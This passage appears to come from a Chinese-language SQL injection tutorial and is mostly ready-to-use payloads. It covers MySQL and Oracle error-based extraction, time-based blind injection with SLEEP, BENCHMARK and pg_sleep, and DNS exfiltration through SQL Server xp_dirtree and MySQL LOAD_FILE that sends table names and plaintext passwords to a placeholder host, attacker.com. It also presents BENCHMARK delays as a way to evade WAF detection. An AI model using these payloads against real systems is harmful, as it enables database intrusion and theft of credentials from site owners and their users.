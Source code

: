 **实战payload构造**：
- **MySQL updatexml()注入模板**：
```sql
?id=1' AND updatexml(1, 
  CONCAT(0x7e, 
    (SELECT MID(GROUP_CONCAT(table_name),1,31) 
     FROM information_schema.tables 
     WHERE table_schema=DATABASE())
  ,0x7e),1) --+
```
其中`0x7e`是波浪号`~`的十六进制编码，用于分隔查询结果与错误信息。由于`updatexml()`最大输出32字符，当数据过长时需使用`MID()`函数分片提取。

- **Oracle多层嵌套突破限制**：
```sql
?id=1' AND (SELECT UPPER(XMLAGG(XMLELEMENT(e, column_name||',')).EXTRACT('//text()') 
FROM all_tab_columns WHERE table_name='USERS') FROM DUAL 
WHERE 1=CTXSYS.DRITHSX.SN(1,(USERENV('SESSIONID'))) --+
```
通过`XMLAGG()`和`XMLELEMENT()`函数拼接多个结果，突破单条报错的字符限制，适用于提取长数据。

### 3.2 时间盲注高级利用
时间盲注通过控制SQL语句的执行时间差异判断条件真假，适用于无任何回显的场景。以下是精准延时控制技术及实战案例：

- **基础延时判断**：
```sql
?id=1' AND IF(ASCII(SUBSTR(database(),1,1))>100, SLEEP(3), 0) --+
```
通过`IF()`函数构造条件，若数据库名首字符ASCII值大于100，则延迟3秒响应，否则正常返回。

- **动态延时绕过阈值**：
```sql
?id=1' AND IF(ASCII(SUBSTR(database(),1,1))>100, 
  BENCHMARK(10000000,MD5('test')), 0) --+
```
使用`BENCHMARK()`函数重复执行`MD5('test')`运算实现延时，相比`SLEEP()`更隐蔽，可规避WAF对固定延时的检测。

- **PostgreSQL条件响应延迟**：
```sql
?id=1'; SELECT CASE WHEN (SELECT COUNT(*) FROM users)>0 
  THEN pg_sleep(5) ELSE pg_sleep(0) END -- 
```
通过`CASE`语句实现条件分支，当`users`表存在数据时延迟5秒，适用于PostgreSQL数据库。

### 3.3 DNS外带技术突破网络隔离
当数据库所在服务器无法直接出网但允许DNS解析时，可利用数据库函数发起DNS请求，通过监控域名解析日志获取数据。

- **SQL Server DNS外带**：
```sql
?id=1'; DECLARE @q VARCHAR(1024); SET @q=(SELECT TOP 1 table_name FROM information_schema.tables); 
EXEC('master..xp_dirtree "\\'+@q+'.attacker.com\"') --
```
利用`xp_dirtree`函数访问远程共享目录时会进行DNS解析，将查询到的表名拼接到域名中，攻击者通过查看`attacker.com`的DNS日志即可获取数据。

- **MySQL DNS外带（需load_file权限）**：
```sql
?id=1' UNION SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'.attacker.com\\test')) --
```
`LOAD_FILE()`函数访问UNC路径时会触发DNS查询，将密码明文拼接到域名中，适用于高权限MySQL环境。
